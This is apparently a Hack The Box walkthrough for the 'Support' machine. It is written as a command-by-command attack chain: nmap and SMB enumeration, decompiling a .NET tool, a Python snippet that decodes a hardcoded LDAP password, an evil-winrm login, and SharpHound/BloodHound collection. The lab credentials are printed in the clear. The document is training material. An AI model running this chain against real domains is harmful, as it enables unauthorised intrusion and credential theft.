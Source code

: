 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.129.178.26 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)
